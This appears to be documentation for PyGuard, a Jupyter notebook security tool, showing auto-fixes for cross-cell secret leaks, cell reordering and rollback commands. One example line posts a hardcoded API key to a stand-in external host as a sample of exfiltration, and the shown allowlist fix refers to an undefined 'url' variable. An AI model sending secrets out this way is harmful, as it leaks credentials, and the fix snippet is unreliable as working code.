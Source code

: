 #### Multi-Cell Dataflow Fixes
PyGuard tracks secrets and vulnerabilities across cell boundaries:

```python
# Cell 1 (BEFORE):
api_key = "sk-secret123"

# Cell 5 (BEFORE):
requests.post("https://external.com", data={"key": api_key})  # Exfiltration!

# PYGUARD AUTO-FIX (CELL 1):
# REMOVED: api_key = "[REDACTED]"
api_key = os.getenv('API_KEY')

# PYGUARD AUTO-FIX (CELL 5):
# Added allowlist check
ALLOWED_DOMAINS = ['api.trusted-service.com']
if not any(domain in url for domain in ALLOWED_DOMAINS):
    raise ValueError(f"Network request to {url} blocked by PyGuard policy")
requests.post("https://external.com", data={"key": api_key})
```

#### Intelligent Cell Reordering
Fixes execution order violations:
```python
# BEFORE (execution order violation):
# Cell 1: print(result)  # NameError - result not defined!
# Cell 2: result = 42

# AFTER (PYGUARD AUTO-FIX):
# PyGuard: Reordered cells to fix execution dependency
# Cell 1: result = 42
# Cell 2: print(result)  # Now works correctly
```

### Fix Verification & Testing
Every auto-fix includes:
1. **AST validation** — Ensures Python syntax is correct
2. **nbformat schema validation** — Confirms notebook structure is valid
3. **Semantic preservation check** — Verifies behavior matches original (when safe)
4. **Rollback command** — One-liner to undo all changes
5. **Test case generation** — Creates pytest test to verify fix

### Rollback & Undo
```bash
# Rollback single fix
pyguard rollback --fix-id R052-cell-3

# Rollback entire session
pyguard rollback --session 2025-01-15-14-30-00

# Restore from backup
cp notebook.ipynb.backup.2025-01-15-14-30-00 notebook.ipynb
```
